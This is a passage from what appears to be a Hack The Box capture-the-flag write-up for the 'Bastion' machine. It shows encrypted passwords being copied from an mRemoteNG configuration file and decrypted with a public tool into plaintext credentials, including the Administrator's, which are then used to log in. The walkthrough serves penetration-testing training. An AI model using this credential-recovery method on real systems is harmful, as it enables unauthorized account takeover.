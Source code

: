 ```cmd
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>copy confCons.xml Z:\
        1 file(s) copied.
```

... then took a look at it.

```xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" [...] />
    <Node Name="L4mpje-PC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="8d3579b2-e68e-48c1-8f0f-9ee1347c9128" Username="L4mpje" Domain="" Password="yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB" Hostname="192.168.1.75" [...] />
</mrng:Connections>
```

I cut out most of it for brevity, but there are clearly two encrypted passwords stored in that file. I decided to test the tool against the 'L4mpje' user first to see if it would confirm what we know their password is.

```bash
$ python3 mremoteng_decrypt.py -s yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB
Password: bureaulampje
```

The tool managed to recover the correct password from the encrypted string, so next step was to run it against the 'Administrator' user's password.

```bash
$ python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

We can then try to SSH in using these credentials.

```bash
administrator@BASTION C:\Users\Administrator>whoami
bastion\administrator
```

And we have root! Thanks for reading, sorry for the delay in getting this out but more are on the way.

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[smbmap]: https://github.com/ShawnDEvans/smbmap
[cpass]: https://adsecurity.org/?p=2288
[Bloodhound]: https://github.com/BloodHoundAD/BloodHound
[Bloodhound.py]: https://github.com/fox-it/BloodHound.py
[cme]: https://github.com/byt3bl33d3r/CrackMapExec
[mremoteng-decrypt]: https://github.com/kmahyyg/mremoteng-decrypt
